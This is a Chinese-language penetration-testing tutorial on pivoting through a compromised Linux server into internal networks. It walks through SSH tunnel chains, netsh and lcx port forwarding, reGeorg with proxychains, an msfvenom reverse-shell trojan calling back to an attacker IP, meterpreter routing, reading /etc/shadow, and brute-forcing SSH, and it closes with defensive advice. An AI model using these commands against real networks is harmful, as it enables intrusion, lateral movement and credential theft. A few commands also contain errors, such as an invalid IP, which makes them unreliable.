





Linux内网渗透

渗透工具
能够成功地通过web漏洞获取到webshell，对于一次完整的渗透测试来说，仅仅相当于万里长征的第一步。并不是所有渗透测试都会遇到几百台机器的大内网。
在PTES(渗透测试执行标准)中，把渗透测试分成了七个主要的过程，也就是说现在通常说的前期交互、目标识别、信息收集、漏洞分析、漏洞利用、后渗透测试、报告编制这七大步骤。如果你看过PTES标准，后渗透测试部分的内容，几乎等于其他六个部分的总和。当然，也只是在系统规模达到一定程度的时候，才会明显的感觉出来。
内网中，如何打开一个稳定、可靠的数据通道，对后续的测试工作起到非常重要的作用。这里分享一些之前渗透测试中常用的方式。在造成最小影响的情况下，构建稳定的内网代理通道。
第一个工具：SSH
SSH在渗透测试中往往扮演了非常重要的角色。一方面，几乎所有的Linux/Unix服务器和网络设备都支持SSH协议。另一方面，SSH是最常用的远程管理协议，网络层面的访问控制协议，往往会为SSH网开一面。很多管理员为了便于管理，都会开放SSH远程管理，总不能每次一出问题就直奔机房吧。SSH本身是安全的，但是安全的通道，同样会在网络攻击中被利用。
SSH最简单的命令行格式如下：
ssh root@192.268.201.100
使用-p指定目标服务器上的ssh端口
ssh root@192.268.201.100 -p 2222
或者用下面的形式：
ssh root@192.168.201.100:2222
使用-N建立静默连接(建立了连接，但是你看不到会话,这个选项不是所有的ssh都支持，具体看情况)
ssh -N root@192.168.201.100:2222
使用-f对ssh进行后台执行，这个选项会把ssh转入后台，即使用户登出，ssh会话也不会终端，除非超时。
ssh -f root@192.168.201.100:2222
只要在本地设置一下代理端口就可以使用了。估计不少同学也是用过类似的方式去访问某些“不可描述”的网站。
SSH的隧道，说得通俗一些，其实就是端口映射，或者叫端口转发。
SSH一共支持三种隐射方式：
动态映射(使用-D选项，前面说的就是这种方式)。
ssh -D 8080 root@192.168.201.100
这个命令行会在本机上监听8080端口，成为一个sock5代理，只要简单设定一下代理，就可以以192.168.201.100作为代理服务器传送流量了。
本地映射(使用-L选项)，将远端服务器的端口，隐射到本地。
ssh -L 8080(本地端口):192.168.201.101(目标主机):3306(目标端口) root@192.168.201.100(跳板机)
以SSH Server 为跳板，将Target Host的端口，映射到本地服务器上。这时候，你访问本地的8080端口，实际访问的，就是Target Host的3306了。
前提：SSH Server必须要能通过ssh够登陆到Target Host上去。
场景：SSH Server和Target Host都在内网，但是外部机器只能访问到SSH Server，而无法直接对Target Host做任何请求的时候。
远端映射(使用-R选项)，将一个远端服务器的端口，隐射到另一个远端服务器。
ssh -R 3307:192.168.202.244:3306 root@192.168.201.100
这个时候，执行这条命令的主机，就成为跳板机。
前提：执行这条命令的主机，必须同时能够访问SSH Server和Target Server。
场景：SSH Server在外部，跳板机在内网，Target Host和跳板机同网段但无法
直接从互联网访问到，或者Target Host处在更深层的内网。
实际上，本地映射、远端映射和动态隐射都可以灵活应用，跳板机、目标主机的角色是可以互相转换的。
假设渗透测试中的一个场景如下：
假设，每一台服务器你都知道至少一个账户的密码，这里假设内网的服务器上都有一个弱口令的oracle账户。
| 测试人员 | 公网跳板机 | 内网跳板机1号 | 内网跳板机2号 | 目标主机 |
| 192.168.100.1 公司内网 | 218.2.135.2 虚拟主机 具备独立的公网IP | 233.33.33.33 已Getshell 不能从外部直接登陆 但可以访问互联网 | 192.168.100.100 内网主机 不能访问互联网 可以被跳板1号访问 | 10.10.10.2 核心服务器 可被跳板机2号访问 能够访问核心区域 |
第一步：登陆公网跳板机
ssh root@218.2.135.2
第二步：把218.2.135.2的公钥，添加到跳板机1号的信任列表中。
公钥信息，在你本地的~/.ssh/know_hosts里面可以找到
形如：
218.2.135.2 ssh-rsa AAAAB3NzaC1y**************************************************************************************************************************************************************************************************************************7/WggmJ4OYMJp0OnKQ==
对应的，跳板机1号上你要添加到对应账户的~/.ssh/known_hosts文件中。
因为ssh初次登陆一台主机的时候，会询问用户，是否信任该主机。而且，如果同一个ip，其公钥与此前登陆时记录的公钥不必配，是无法登陆的，所以需要进行这个操作。
第三部：映射跳板机2号的ssh端口，到公网跳板机上(在跳板机1号的webshell中执行)
ssh -f -N -R 2222:218.2.135.2:22 oracle@192.168.100.100
第四部：登陆到跳板机2号上
ssh oracle@localhost:2222
因为上一步已经将跳板机2号的22端口映射到公网跳板机上去了，这时候可以直接登陆。（注，公网跳板机也要做好防护，映射出去的端口，很有可能被扫描或者攻击，这个时候实际上被扫描的就是内网的服务器，我们不希望这种事情发生，这个时候就应当限制，2222端口只能被本地访问）
第五部，在跳板机2号上继续创建动态隐射
ssh -f -N -D 192.168.100.100:7777 oracle@10.10.10.2
渗透测试中有很多变数，不能一竿子打死，只映射特定的一个端口(比如1521)。最后一跳，个人建议以动态映射的方式，这样可以保证后续的其他测试工作也能顺利进行。但如果甲方对渗透测试有特定的需求，请务必按照甲方要求的方式进行。(比如，甲方不希望你访问除10.10.10.2之外的任意服务器，那么最后一跳就做一个本地隐射就可以了)
第六部：在跳板机1号上执行
ssh -f -N -R 7777:218.2.135.2:7777 oracle@192.
168.100.100
最终，打开了一个直通内网核心的SSH隧道。
只要配置代理，sock5://218.2.135.2:7777，就可以使用浏览器或者数据库终端或者其他工具，来进行更深入的测试。
你发送的流量，在公网跳板机上，跳板机2号上，目标主机上都会进行解密和重新加密的工作，所以效率会低很多(有点类似于洋葱路由了)。一般的手工测试或者文件传输没有太大问题，但是这个隧道一般无法支撑Namp或者WVS之类快速发包的工具。
如果你觉得这些操作太过于繁琐，不妨试试SSH Tunnel(仅限Mac，非常值得花钱买的一个软件)。windows的话，还是一行一行敲命令吧。
第二个工具：Proxifier
其实我并不是很喜欢这个工具，虽然功能强大。个人感觉配置Proxifier比配置防火墙还麻烦，所以用的很少。
在Proxies中添加你的代理服务器，可以配置多个代理，支持Socks4/5，HTTPS和HTTP代理。
看到下面的ProxyChains了么？这是它非常强大的一个功能。
其次是配置代理规则，规则中可以详细指定，什么应用，访问什么站点的时候，使用哪一条代理链路。
在渗透测试的时候，这样的多链路代理会有比较大的用处。
切记，隧道和多链路代理本身已经打破了信息系统中固有的访问控制策略，如果你不能保证你自己的环境是否安全，请不要给客户增加额外的麻烦。
注：Proxifier跟VMware Workstation在功能上有冲突，如果安装了Proxifier，VM的虚拟机共享功能就无法使用。我之前遇到这个问题，蛋疼地把系统都重装好几次才意识到它俩有冲突。
第三个工具：SSH Proxy
算是SSH Tunnel的姊妹，同一个开发者，也是只有Mac下才有的工具。一般两者配合使用，基本上可以不用Proxifier了。它其实就做做了一个SSH的动态隐射而已。
配置好本地的映射端口，代理的服务器和对应的身份验证信息就可以了。
SSH Proxy的白名单功能比较好用，如果只需要对特定的站点或IP地址进行代理，就把IP地址添加到白名单里就可以了。但相比Proxifier，就没有的ProxyChains功能和多链路代理功能。
忠告：不建议使用SSH隧道出墙，因为流量特征明显，非常容易被屏蔽。
第四个工具：windows专用的sock5代理工具
这个工具很小，可以使用命令行方式安装，可以在系统中注册成一个服务，随系统启动。也可以使用下面的命令行来运行这个服务，监听的端口是10086。
这个工具只有三个参数：
socks5.exe -i 安装socks5代理服务
socks5.exe -d 删除服务
socks5.exe -r 直接运行代理，不会注册一个新的服务。
为了避免测试结束之后就忘记了，建议还是用-r方式直接运行，使用完毕就kill掉这个进程。
第五个工具：netsh
我自己用得也不是很多，暂时还没有好的案例可以分享，但是在内网中效果还是很不错的。
命令行格式如下：
创建端口映射
netsh interface portproxy add v4tov4 listenaddress=192.168.100.100 listenport=8443 connectaddress=10.10.10.2 connectport=8443
删除端口映射
netsh interface portproxy delete v4tov4 listenaddress=192.168.100.100 listenport=8443
查看当前所有的端口映射规则：
netsh interface portproxy show v4tov4
同样的，如果你能够在多台服务器上创建端口转发的链路，效果和ssh隧道几乎是一样的。
最后，渗透测试结束的时候，务必清除你创建的所有代理链路。毕竟，这些代理隧道已经打破了内网的访问控制策略了。（使用-N 和 -f选项建立的SSH会话运行在后台，只能kill掉对应的进程，但别kill错了）
如果你用我的方式去修改了known_hosts文件，也要把对应的公钥信息做清理。
总结
隧道之所以能成功，前提是系统中访问控制不足。如果系统中配置了SSH远程管理的白名单，或者在ACL里限制特定的IP才能连接SSH，又或者系统完全使用带外管理，那就得两说了。
对于甲方来说，SSH固然是最常用的一种远程管理工具，SSH本身安全性也可以保障。但一定要意识到，安全工具，往往也会沦为攻击的重要手段。
如果没有足够的资源来建立带外管理的网络结构，内网中至少要限制SSH远程登录的地址和双向的访问控制策略（从外部到内部，从内部到外部）切记，再牛逼的安全防护策略，也敌不过内网里遍地的弱口令。
Linux内网渗透
收集测试网络环境
当我们拿到一台目标内网服务器，或者说肉鸡服务器，首先要做的就是收集信息。而在我看来需要收集的信息中，最重要的之一便是肉鸡的网络环境。
实验环境
首先介绍下本次测试的服务器环境：
攻击机Mac：110.xx.xx.xx 外网
肉鸡centos：192.168.16.x 目标内网16网段系统
内网渗透范围：192.168.17.0/24 目标内网17网段系统
本次测试模拟假设：由于肉鸡服务器上对外开放了存在漏洞的web应用，被入侵植入webshell。
本次测试目的：通过肉鸡服务器上的shell，深入渗透内网17网段的服务器。
收集测试哪些网络数据？
OK，目前我已经拥有了肉鸡的shell，那么该收集肉鸡服务器的哪些网络环境呢？又该如何去测试？我认为至少要收集以下几点网络环境信息：
肉鸡服务器与外网的连通性
肉鸡服务器与内网其他网段的连通性
肉鸡服务器与外网之间是否有端口访问限制
肉鸡服务器与内网其他网段之间是否有端口访问限制
注：连通性主要是指能否ping通，需要双方互相ping测试；端口访问限制，指的是目标网络边界是否有堡垒机或者防火墙，对进出的端口是否有做限制。
端口访问限制测试
ping测试这里不介绍了，主要说下如何测试端口访问限制，可以使用的工具如下：
curl、wget（可连接web服务，主要为80、443、8000+端口）
telnet（可主动连接指定ip的指定port）
nmap（可扫描端口，open或者filter）
ncat（可以创建端口监听，也可以主动连接）
python（可主动创建端口监听）
……
在测试端口访问限制前，我们先要搞清楚当前的网络环境。本次测试中，攻击机在外网而肉鸡在内网，因此正常情况下攻击机是无法直接访问到肉鸡上某个端口的（需要网络边界路由器做端口映射）。
反向连接测试
我们在测试端口访问限制时，首先可以利用ncat在攻击机上监听一个端口。
ncat -l -p 9999然后利用ncat或者telnet等工具在肉鸡上尝试连接，我称之为反向连接测试。
ncat 110.xx.xx.xx 9999注：监听的端口可以随机选取，尽量选取多个端口尝试多次；如果肉鸡能够访问攻击机的任何端口，说明目标网络边界没有对出方向的连接做限制，了解这方面的信息对后面的端口转发有很大好处。
正向连接测试
我们也可以在肉鸡上监听一个端口，攻击机上尝试连接（这里连接的是肉鸡的外网ip地址，肉鸡对外开放的web应用肯定是以一个外网ip或者域名的形式存在，而该ip在本次测试中并不是肉鸡真正的ip地址，是目标边界网络设备的ip，原理是通过端口映射将网络设备（外网ip）上的web端口映射到了肉鸡（内网ip）的web端口上），我称之为正向连接测试。
尝试连接肉鸡外网地址的端口，意义在于有些粗心的管理员会在网络设备上设置全端口映射，也就是说肉鸡上监听任何端口都能映射到网络边界设备的相同端口上，那么这跟肉鸡服务器直接处在外网就没差了。
收集服务器信息
收集信息可以说是渗透测试的第一步，内网渗透也一样，收集的服务器信息越多，渗透的成功率就越大。
查看系统内核
linux系统上查看内核版本如下：
lsb_release –a一般系统的入侵途径是先提权，而提权可以通过linux内核漏洞进行，因此可以先查看linux内核版本，然后根据内核寻找exp的网站，上传exp进行提权。由于本次测试不涉及提权部分，因此不做测试，另外补充一句：内核提权有宕机风险，请谨慎操作。
查看操作系统位数
linux系统上查看位数如下：
getconf LONG_BIT说明：知道系统是32位还是64位对后期生成msf木马有帮助。
系统敏感信息
收集一些系统相关的敏感信息，比如账号密码、日志、历史命令、ssh文件等。
/etc/shadow
/etc/passwd
/var/log
history
.ssh
......web敏感信息
如果服务器存在web应用，可以查看web目录下是否存在敏感信息，比如连接数据库的配置文件等等。
内网扫描
当信息收集完成后，可以尝试扫描一下内网的机器，比如主机存活扫描、端口扫描、arp扫描等。端口扫描可以使用nmap、msf等工具，但如果服务器上没有安装这些工具时，通常有3种手段可以达到内网端口扫描的效果。第一种就是服务器上安装扫描工具，这里不多说也不推荐，因为动静大且麻烦；第二种就是端口转发，将服务器内网端口转发到外网进行扫描；第三种就是代理扫描，也就是把装有扫描工具的攻击机代理到目标内网环境。
无论是端口转发扫描还是代理扫描，原理都是打通攻击机（外网）与肉鸡（内网）的连通性，即让攻击机可以直接访问到肉鸡所在的内网资源。这里的连接不借助于目标网络边界设备的端口映射功能，因此与攻击机访问肉鸡web服务所产生的连接有所区别。
端口转发
想要达到以上所介绍的彼此”直接”的连接，我们需要一个中间的桥梁，来传递内外网（攻击机与肉鸡）之间的数据。搭建这种桥梁的方式有很多，我们首先可以想到端口转发，即把肉鸡服务器上的某个端口转发到攻击机的某个端口上，这样攻击机上访问本机某个端口，就相当于访问了肉鸡服务器上的某个端口。
端口转发的工具：lcx、meterpreter等，具体用法后面会介绍
端口转发类型：tcp端口转发、http转发、ssh转发等
tcp端口转发
本机转发：攻击机上监听2222、3333端口，肉鸡上连接攻击机的2222端口，并转发肉鸡22端口。
转发连接原理：
肉鸡22端口<-->肉鸡随机高端口<-->肉鸡随机高端口<-->攻击机上2222高端口<-->攻击机随机高端口<-->攻击机3333端口注：此时我们去连接攻击机的3333端口，就相当于连接了肉鸡的22端口。
远程转发：攻击机上监听2222、3333端口，肉鸡上连接攻击机的2222端口，并转发内网目标服务器的22端口。（前提是肉鸡能够连接目标服务器的22端口）
转发连接原理：
内网目标服务器22端口<-->肉鸡随机高端口<-->肉鸡随机高端口<-->攻击机上2222高端口<-->攻击机随机高端口<-->攻击机3333端口注：此时我们去连接攻击机的3333端口，就相当于连接了目标服务器的22端口。
说明：从上面的连接过程不难看出，端口转发比较难以防范的原因就在于，攻击机上监听的端口是随机的，不可预知的，因此不可能事先在堡垒机或者防火墙上做出方向的端口策略，除非禁止服务器访问外部所有端口（现实情况大多只对进方向的端口连接做限制）。
http转发
有些安全意思强的管理员，会对一些服务器做禁止访问外网的策略，即服务器禁止连接任何外网的端口。此时普通的tcp端口转发就没有效果了，因为转发的前提是要能互相连接上。此种情况，可以使用http转发。
转发连接原理：
肉鸡web端口(80)<-->网络边界设备端口(80)<-->攻击机随机端口注：这里之所以能够连通，是借助了服务器上的web服务，以及网络边界设备的映射功能。
说明：虽然肉鸡不能访问外网任何端口，但只要它对外提供web服务，就说明它还能跟外界通信，只不过这种通信局限于web服务端口中，并且肉鸡不是直接跟攻击机通信，而是借助了边界设备。
代理扫描内网
以上介绍了几种端口转发的使用以及原理，从中我们不难看出端口转发固然厉害，但也很局限，因为每次都只能转发一个ip的一个端口，对于扫描来说，并不是最好的选择方案。因此出现了一种更好的技术方案–代理扫描，其原理与端口转发差不多，都是需要搭建一个桥梁，而这个桥梁往往不是某个端口，而是shell或者说session。
代理扫描同样可以分为tcp代理扫描、http代理扫描。
http代理转发
如果目标服务器有web系统，可以使用Regeorg + proxychains。
工具下载：reGeorg、proxychains
将reGeorg的tunnel文件上传到肉鸡服务器到网站目录下，攻击机执行：
python reGeorgSocksProxy.py -p 2333 -u http://test.com/tunnel.php然后修改proxychains.conf 配置文件
vim /etc/proxychains.conf （mac上在~/.proxychains/proxychains.conf ,没有则自己创建）在最后一行添加socks5 127.0.0.1 2333(与regeorg设置的端口相同)
最后在攻击机使用扫描工具时，可以在执行的命令前加proxhchains4, 比如：
proxychains4 nmap -sT -Pn -n 192.168.16.0/24注：此方案适合攻击者与肉鸡服务器都在各自内网环境，攻击者可以访问到目标服务器的http服务，通过该http服务进行代理转发（速度较慢）.
tcp代理转发
思路：通过metasploit木马反弹一个肉鸡的meterpreter shell到攻击机上，然后在meterpreter shell上设置路由，我们便可以在攻击机上直接扫描肉鸡所在的网段服务器（这里是可以跨网段扫描的）。
生成msf木马
生成木马：
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机ip LPORT=8000 -f elf > shell_8000.elf由于攻击机无法访问肉鸡的端口，而肉鸡可以访问攻击机的端口，因此生成一个反向的木马。
反弹shell
攻击机运行msfconsole，使用exoloit/multi/handler模块，set payload linux/x86/meterpreter/reverse_tcp跟生成木马时用的payload一样。LPORT设置成木马将要连接的端口，运行后会在攻击机上监听一个端口，等待木马链接。
此时将shell_8000.elf上传到肉鸡服务器上，添加权限后运行木马将会主动连接上攻击机监听的端口，并在攻击机上获取一个meterpreter shell。
设置路由
上一步获取到了一个session，这个session是攻击机与肉鸡相互连接的会话。
查看下肉鸡的网络情况：
run get_local_subnets
添加路由：
run autoroute -s 192.168.16.0/24查看路由：
run autoroute –p
一般来说，这里设置好路由就可以了，但是有些时候会发现在meterpreter中有效果，但是在msf中失效了，因此可以在msf中再设置一次。（但前提是meterpreter会话要一直存在）将该会话放入后台，进入msf中添加路由。
查看路由：

这里已经是添加好的结果，添加路由命令：
msf exploit(handler) > route add 192.168.16.0 255.255.255.0 12
msf exploit(handler) > route add 192.168.17.0 255.255.255.0 12注意：12表示session id，由于我们需要访问17网段，因此这里也要添加17网段的路由。
说明：以上2条路由的意思，是攻击机如果要去访问17或者16网段的资源，其下一跳是session12，至于什么是下一条这里不多说了，反正就是目前攻击机可以访问内网资源了。
tcp全局代理转发
通过以上设置，在msf中可以访问内网资源了，但也仅限在msf中可以访问。如果想要其他工具也能使用代理，则要设置全局代理，这需要使用msf框架中的socks4a工具代理，目录：auxiliary/server/socks4a，然后配合Proxychains ，使用方法跟http代理类似。
注：此代理不是http代理，是tcp代理，因此需要目标服务器或者攻击者服务器，有一方在外网的环境，不然木马端口无法连接，也就无法获取meterpreter shell。
metasploit操作可参考：【渗透神器系列】Metasploit
端口扫描工具
推荐使用metasploit进行tcp代理转发后，利用msf上面整合的很多扫描模块，直接进行扫描。
扫描模块：
auxiliary/scanner/portscan 端口扫描
scanner/portscan/syn SYN端口扫描
scanner/portscan/tcp TCP端口扫描
……
除此之外，也可以使用nmap等扫描工具，结合tcp全局代理转发即可。
针对22端口的入侵
扫描出内网服务器端口后，我们可以首先选择开放22端口的服务器进行入侵尝试。攻击22端口通常有2种方法，第一种是先读取肉鸡明文密码，再利用明文密码尝试登陆；第二种是字典暴力登陆。
尝试hash破解
如果权限足够，我们可以顺利读取/etc/shadow文件的内容，然而是密文的，因此可以尝试用工具破解。
John破解hash
Hashcat
注：windows下可以使用mimikatz
说明：获取linux账号的明文密码作用很大，因为内网环境管理员可能就那么几个，不同服务器所设置的密码也有可能相同，因此可以使用获取的服务器密码去尝试登陆其余开放了22端口的内网服务器。
字典暴力破解
这个没啥好说的，主要看字典是否强大，以及是否有防止爆破限制。
工具：
hydra
msf上的相应模块
针对其他端口的入侵
除了22端口外，21（ftp）、3306（mysql）、1433（mssql）等都可以通过暴力破解的方式。那么其他段端口呢？比如445、443等，这些则可以通过相应的漏洞进行攻击，通过可以使用nessus扫描器进行扫描，对发现的漏洞再集合msf上相应的模块进行攻击。
针对web服务的入侵
除了以上的端口外，还有一类端口比较特殊，那就是web服务类的端口，比如80、443、8000+等。由于这些端口上存在web应用，而web应用又是容易存在漏洞的点。因此可以重点寻找内网中存在web服务的服务器，并依照web渗透测试的流程对其web应用进行渗透。
端口转发的逆袭
前文介绍了端口转发技术，但在扫描环节中我并没有使用这种方案。那么是不是说端口转发在内网渗透中没有用武之地呢？
事实并不是这样，内网扫描过后的漏洞利用攻击阶段，才是端口转发真正的舞台。在此阶段，我们可以利用端口转发，将某个存在漏洞的服务器的某个端口转发出来，单独攻击利用。我们可以想到在windows中，利用lcx转发3389端口，linux下同样可以转发22端口，当然更好用的是转发80端口，达到可以本地访问内网的web服务，从而继续web渗透的套路，扩大攻击面。
meterpreter实现端口转发
在meterpreter shell中输入：
meterpreter > portfwd add -l 55555 -r 192.168.16.1 -p 3306说明：表示将192.168.16.1服务器上的3306端口转发到本地（攻击机）的55555端口，然后我们可以在本地运行mysql –h 127.0.0.1 –u root –P 55555 –p 去登陆内网服务器的mysql。其他端口如ssh、ftp等都类似，这个过程跟msf代理很像。
案例
将肉鸡的22端口转发到攻击机的2222端口，看一下连接情况。
发现攻击机上监听了2222端口，连接到了本机其外一个高端口。

肉鸡的22端口也连接到了肉鸡自己的一个高端口

那么两台服务器之间的两个高端口之间是怎么连接的，我想肯定是利用meterpreter会话。因此meterpreter会话就相当于一个中间人，传递原本无法传递的消息。
lcx端口转发
攻击机：
lcx -listen 2222 3333 # 2222为转发端口，3333为本机任意未被占用的端口肉鸡：
lcx -slave 110.1.1.1 2222 127.0.0.1 3389110.1.1.1为攻击机外网ip，2222为转发端口，127.0.0.1为肉鸡内网ip，3389为远程终端端口 。
内网嗅探
windows下可以使用cain，linux下可以使用msf中的模块。当然一般情况下，最好不要用内网嗅探，因为动静太大，而且可能会影响内网网络。
linux内网安全建议
说了这么多内网渗透的套路，按惯例最后该给出内网安全建设的几点建议了，当然只是个人看法。
每台服务器上安装waf或者云盾，监控并拦截木马程序的运行
监控服务器上开启的新端口，查看其连接情况，是否有异常连接
服务器及时更新补丁
服务器上运行的应用给予低权限
参考来源：先知安全技术社区